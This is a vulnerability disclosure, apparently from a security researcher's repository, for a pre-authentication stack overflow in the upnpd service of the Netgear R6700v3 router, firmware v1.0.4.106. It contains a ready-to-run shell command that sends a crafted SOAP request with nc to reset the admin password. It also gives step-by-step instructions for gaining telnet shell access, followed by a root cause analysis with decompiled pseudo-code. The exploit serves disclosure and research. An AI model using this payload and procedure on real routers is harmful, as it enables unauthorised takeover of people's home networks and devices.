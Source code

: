 # Pre-auth LAN RCE in Netgear R6700v3 v1.0.4.106

Disclosed is a pre-auth LAN RCE based on a stack overflow in the router from Netgear, model AC1750 R6700v3. This targets the firmware v1.0.4.106 and the vulnerable target binary is upnpd. This particular exploit against the vulnerability will not work against newer firmware versions.

## Details

The vulnerability is in the handling of requests to upnp, specifically a SOAPAction for setting a MAC address. This SOAPAction requires usually authentication, but as shown previously [1] the authentication can be bypassed by adding two SOAPActions `urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin` and `SOAPAction: urn:NETGEAR-ROUTER:service:DeviceInfo:1#SetDeviceInfoByMAC` in order to bypass the authentication logic.

A long string provided in the `NewMACAddress` tag causes the buffer overflow. Details for this can be found below in the root cause analysis.

The following request, performs similar to [1] a password reset using a single gadget by jumping to the procedure `acosNvramConfig_set`, which is located at `0x39b30` in v1.0.4.106. The input password to acosNvramConfig_set will be `password`.

```
BODY='<?xml version="1.0"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Body>
<NewMACAddress>'"$(printf 'a%.0s' {0..1015})"'\x30\x9b\x03</NewMACAddress>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>'
BODY_LEN=$(echo -n ${BODY} | wc -c )
echo -ne "POST soap/server_sa HTTP/1.0\r\nHost: 192.168.1.1:5000\r\nContent-Type: application/x-www-form-urlencoded\r\nSOAPAction: urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin\r\nSOAPAction: urn:NETGEAR-ROUTER:service:DeviceInfo:1#SetDeviceInfoByMAC\r\nContent-Length: ${BODY_LEN}\r\n\r\n${BODY}" | nc -i 1 192.168.1.1 5000
```

Next, login to the web interface with the user admin and password `password`. Change the password as for some reason this seem to be required, then run the well-known telnetenable tool [2] in order to open the telnet port and login to the router for shell access.

Summary:

1) Run the request with the exploit payload to reset the password
2) Login to the web interface with user admin and password `password`
3) Change the admin password
4) Run telnetenable to gain shell access: ./telnetenable <router_ip> <router_lan_port_mac> admin <new_password>

## Root cause analysis
The root cause exists in the function at address 0x3b8f8 in v1.0.4.106. The relevant pseudo-code is:
```
   ..
   .
   v61 = stristr(v13, "NewMACAddress");
    if ( v61 )
    {
      v62 = (const char *)(stristr(v13, "NewMACAddress xsi:type=\"xsd:string\">") ? v61 + 36 : v61 + 14);
      strncpy(byte_DB00C, "", 0x13u);
      v63 = stristr(v13, "</NewMACAddress>");
      if ( v63 )
      {
        v64 = v63 - (_DWORD)v62;
        strncpy(byte_DB00C, "", 0x13u);
        strncpy(byte_DB00C, v62, v64);
        byte_DB00C[v64] = 0;
        sub_C310(3, "NewMACAddress = %s\n", byte_DB00C);
      }
    }
    .
    ..
```
which performs a copy to a memory location without any size limitations in `strncpy(byte_DB00C, v62, v64)`.

## References
[1] https://github.com/rdomanski/Exploits_and_Advisories/blob/master/advisories/Pwn2Own/Tokyo2019/tokyo_drift.md

[2] https://github.com/insanid/NetgearTelnetEnable
